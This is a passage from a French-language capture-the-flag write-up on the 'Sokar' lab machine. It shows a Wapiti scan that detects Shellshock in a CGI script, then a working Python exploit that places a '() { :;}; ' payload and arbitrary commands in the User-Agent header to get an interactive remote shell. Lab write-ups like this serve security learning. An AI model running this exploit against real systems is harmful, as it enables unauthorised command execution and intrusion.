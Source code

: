 ```plain

<h2>Sokar Inc.</h2>
<h4>Internal Stats</h4>
<br />
<iframe frameborder=0 width=800 height=600 src="/cgi-bin/cat"></iframe>

</div>
</body>
</html>
```

La page du CGI affiche une série de lignes qui proviennent de toute évidence de commandes Unix.  

CGI ? Et si on retentait notre chance avec *Shellshock* (c'est à la mode), cette fois en mode web :  

```plain
$ ./bin/wapiti http://192.168.1.63:591/ -m shellshock
Wapiti-2.3.0 (wapiti.sourceforge.net)

 Note
========
Le scan a été sauvegardé dans le fichier /home/devloop/.wapiti/scans/192.168.1.63_591.xml
Vous pouvez l'utiliser pour lancer de futures attaques sans avoir à relancer le scan via le paramètre "-k"
[*] Chargement des modules :
         mod_crlf, mod_exec, mod_file, mod_sql, mod_xss, mod_backup, mod_htaccess, mod_blindsql, mod_permanentxss, mod_nikto, mod_delay, mod_buster, mod_shellshock

[+] Lancement du module shellshock
URL http://192.168.1.63:591/cgi-bin/cat seems vulnerable to Shellshock attack !

Rapport
------
Un rapport a été généré dans le fichier /home/devloop/.wapiti/generated_report
Ouvrez /home/devloop/.wapiti/generated_report/index.html dans un navigateur pour voir ce rapport.
```

[Le module Shellshock que j'ai écrit pour Wapiti](http://devloop.users.sourceforge.net/index.php?article109/wapiti-modules-shellshock-et-buster) (version de dév dispo via SVN) a trouvé une faille.  

En jouant un peu avec la vulnérabilité on remarque que la variable d'environnement *PATH* est très importante dans l'exploitation. Par exemple si on lance *which wget* en ayant spécifié le chemin complet de *which* :  

```plain
/usr/bin/which: no wget in ((null))
```

Partant là dessus j'ai écrit l'exploit suivant :  

```python
import requests
import sys

empty_func = "() { :;}; "
url = sys.argv[1]

while True:
    inject = raw_input("$ ")
    if inject.strip() == "exit":
        break
    cmd = "echo; echo; PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin:/usr/local/sbin " + inject + ";"
    hdrs = {"user-agent": empty_func + cmd}
    r = requests.get(url, headers=hdrs)
    print r.content
```
